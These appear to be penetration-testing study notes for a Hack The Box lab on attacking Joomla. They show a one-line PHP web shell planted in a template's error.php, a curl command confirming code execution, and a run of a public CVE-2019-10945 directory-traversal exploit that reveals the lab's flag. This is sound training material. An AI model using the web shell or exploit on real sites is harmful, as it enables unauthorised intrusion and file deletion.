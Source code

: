 ```yaml
---
description: >-
  Joomla has had its fair share of vulnerabilities against the core application
  and vulnerable extensions. (possible to gain remote code execution if we can
  log in to the admin backend.)
---
```


# Attacking Joomla

## Abusing Built-In Functionality

Log in to the admin control panel using credentials found whether by leak or brute force. After logging in&#x20;

we would like to add a snippet of PHP code to gain RCE. We can do this by customizing a template.

<figure><img src="https://academy.hackthebox.com/storage/modules/113/joomla_admin.png" alt=""><figcaption><p>Control Panel</p></figcaption></figure>

Access Templates (Under Configuration)

<figure><img src="https://academy.hackthebox.com/storage/modules/113/joomla_templates.png" alt=""><figcaption></figcaption></figure>

Let's choose `protostar` under the `Template` column header. This will bring us to the `Templates: Customise` page.

<figure><img src="https://academy.hackthebox.com/storage/modules/113/joomla_customise.png" alt=""><figcaption><p>Choose page from the left panel</p></figcaption></figure>

<figure><img src="https://academy.hackthebox.com/storage/modules/113/joomla_edited.png" alt=""><figcaption><p>error.php</p></figcaption></figure>

add the following to the php file.

```php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
```

click on `Save & Close` at the top and confirm code execution using `cURL`.

```shell-session
curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Leveraging Known Vulnerabilities

* Most of the Joomla related vulerabilities are Joomla extensions
* Find vulnerabilities specific to the version running on the target

For our example, the Joomla is vulerable to [CVE-2019-10945](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945) which is a directory traversal and authenticated file deletion vulnerability.

The exploit can be found [here](https://github.com/dpgg101/CVE-2019-10945).

```shell-session
python2.7 joomla_dir_trav.py --url "http://dev.inlanefreight.local/administrator/" --username admin --password admin --dir /
 
# Exploit Title: Joomla Core (1.5.0 through 3.9.4) - Directory Traversal && Authenticated Arbitrary File Deletion
# Web Site: Haboob.sa
# Email: research@haboob.sa
# Versions: Joomla 1.5.0 through Joomla 3.9.4
# https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945    
 _    _          ____   ____   ____  ____  
| |  | |   /\   |  _ \ / __ \ / __ \|  _ \ 
| |__| |  /  \  | |_) | |  | | |  | | |_) |
|  __  | / /\ \ |  _ <| |  | | |  | |  _ < 
| |  | |/ ____ \| |_) | |__| | |__| | |_) |
|_|  |_/_/    \_\____/ \____/ \____/|____/ 
                                                                       


administrator
bin
cache
cli
components
images
includes
language
layouts
libraries
media
modules
plugins
templates
tmp
LICENSE.txt
README.txt
configuration.php
htaccess.txt
index.php
robots.txt
web.config.txt
```

## Assessment

Leverage the directory traversal vulnerability to find a flag in the web root of the http://dev.inlanefreight.local/ Joomla application

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption><p>3.9.4</p></figcaption></figure>

```
python3 CVE-2019-10945.py --url=http://dev.inlanefreight.local/administrator --username=admin --password=admin --dir=/                                   
 
# Exploit Title: Joomla Core (1.5.0 through 3.9.4) - Directory Traversal && Authenticated Arbitrary File Deletion
# Web Site: Haboob.sa
# Email: research@haboob.sa
# Versions: Joomla 1.5.0 through Joomla 3.9.4
# https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945    
 _    _          ____   ____   ____  ____  
| |  | |   /\   |  _ \ / __ \ / __ \|  _ \ 
| |__| |  /  \  | |_) | |  | | |  | | |_) |
|  __  | / /\ \ |  _ <| |  | | |  | |  _ < 
| |  | |/ ____ \| |_) | |__| | |__| | |_) |
|_|  |_/_/    \_\____/ \____/ \____/|____/ 
                                                                       


administrator
bin
cache
cli
components
images
includes
language
layouts
libraries
media
modules
plugins
templates
tmp
LICENSE.txt
README.txt
configuration.php
flag_6470e394cbf6dab6a91682cc8585059b.txt
htaccess.txt
index.php
robots.txt
web.config.txt
```

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption><p>j00mla_c0re_d1rtrav3rsal!</p></figcaption></figure>
